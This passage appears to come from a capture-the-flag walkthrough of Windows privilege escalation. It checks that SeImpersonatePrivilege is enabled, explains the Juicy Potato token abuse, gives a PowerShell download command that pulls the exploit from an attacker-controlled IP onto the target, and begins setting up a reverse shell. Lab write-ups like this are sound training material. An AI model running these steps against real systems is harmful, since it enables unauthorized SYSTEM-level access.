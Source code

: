 It’s running Microsoft Windows 10 Pro, with a 64-bit OS. Let’s first check the system privileges that are enabled for this user.

![](../images/max/1083/1*JJcuKftgeV_JLV-ByedyOQ.png)

_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\kohsuke\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.

![](../images/max/930/1*n2wnWN1sU1Sc6q3Q8naIJg.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.
